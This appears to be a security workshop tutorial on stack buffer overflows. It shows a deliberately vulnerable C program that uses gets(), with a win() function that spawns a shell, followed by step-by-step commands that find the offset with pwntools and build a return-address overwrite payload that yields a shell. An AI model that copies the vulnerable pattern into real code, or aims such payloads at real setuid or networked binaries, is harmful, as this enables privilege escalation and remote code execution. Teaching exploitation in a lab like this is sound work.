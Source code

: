 # Buffer Overflow: Practice

1. Consider the following *vulnerable* code

    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void win() {
        system("/bin/sh");
    }

    void vuln() {
        char buffer[64];
        gets(buffer);
    }

    int main() {
        // Disable input and output buffering
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stdin, NULL, _IONBF, 0);

        puts("Guess my name");
        vuln();
        puts("Wrong!");

        return 0;
    }
    ```

1. As explained previously, the local array `buf` will be placed on the stack (assuming 32-bit memory addressing and 1-byte chars).

    ![buf](buf.png)

1. Problem: `gets` function doesn't do bounds checking
    - A regular user may enter more data than the buffer can handle
        - This will effectively overwrite the values for `saved_ebp` and `ret_addr`.
        - The `ret` instruction will then redirect the `eip` to whatever address specified in the overwritten `ret_addr`, which will typically crash the program
    - A malicious user may carefully redirect program execution to a shellcode.
        - This can give them control of the machine where the binary is executed.
        - On a local machine, this doesn't seem critical, but if the binary is hosted on a remote machine, this exploit may provide Remote Code Execution (RCE).
        - Furthermore, if the binary has the `setuid` bit, the obtained shell will have `root` access, providing means for privilege escalation.

1. Goal: to craft a payload that carefully overwrites the `ret_addr` to jump to the `win` function after `vuln` is executed.

## Practice

1. A precompiled 32-bit binary of the above code is provided (the binary is compiled with flags `-m32 -fno-stack-protector -z execstack` to make exploitation possible)

    ```bash
    wget http://renderer:10082/workshop/content/sample
    sudo chmod +x ./sample
    ```

1. Before going further, it helps to check some security features of the binary (install the tool first with `apt`)

    ```bash
    checksec sample
    ```

1. Debug the binary in GDB, provide some small test input.

    ```bash
    gdb -q sample
    run
    ```

1. For a large enough input, we can overwrite the stack. To determine padding length, we can use [`pwn.cyclic`](https://docs.pwntools.com/en/stable/commandline.html#pwn-cyclic) from [pwntools](https://github.com/Gallopsled/pwntools) to generate a 100-character [De Brujin Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) (notice how any substring of length `n=4` doesn't repeat)

    ```bash
    sudo apt install python3-pwntools
    pwn cyclic 100
    ```

1. Provide the cyclic string as an input to the program in `gdb` and inspect the `EIP` value as the program crashes. GDB should generally show something like this when the target address is invalid

    ```text
    Program received signal SIGSEGV, Segmentation fault.
    0xdeadbeef in ?? ()
    ```

1. Lookup the value to understand the padding length (`L`) after which the `ret_addr` starts to get overwritten.

    ```shell
    pwn cyclic -l <addr>
    ```

1. Construct the payload: `L` characters to fill the buffer, followed by a little-endian representation of the `ret_addr` to jump to. Here are two ways to construct a payload that jumps to `0xfee1dead`.

    ```shell
    echo -en 'AAAAAA...AAAAAAA\xad\xde\xe1\xfe' > payload
    ```

    ```shell
    python -c "import sys; sys.stdout.buffer.write(N * b'\x41' + b'\xad\xde\xe1\xfe')" > payload
    ```

1. We can get the address of the target function in `gdb` with `disas win` or by inspecting the symbol table

    ```bash
    readelf -s sample | grep win
    ```

1. Run the payload to get a shell (the `-` is needed to keep the pipe open after the payload is executed to enable interaction with the shell).

    ```bash
    cat payload - | ./sample
    ```

> **Note**: when supplying the payload in gdb like `run < payload`, you may get a message like `[Detaching after vfork from child process NNNN]`: this is because gdb won't track both parent and child processes. It's common to test payloads in GDB, but run the exploit outside or from Python.
